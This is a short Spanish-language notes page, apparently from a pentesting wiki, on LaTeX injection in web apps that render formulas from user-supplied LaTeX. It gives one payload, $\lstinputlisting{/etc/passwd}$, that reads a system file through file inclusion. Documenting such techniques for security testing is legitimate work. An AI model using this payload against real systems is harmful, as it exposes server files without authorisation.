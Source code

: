 # LateX Injection

En esta pagina se recopila todo lo que se vaya haciendo para Latex Injectión.

Existen en nalgunas aplicaciones generadores de imágenes de formulas matemáticas previa inserción de código Latex.

Se pueden utilizar para incluso ejecutar comandos.

## Lectura de archivos, LFI

```latex
$\lstinputlisting{/etc/passwd}$

```
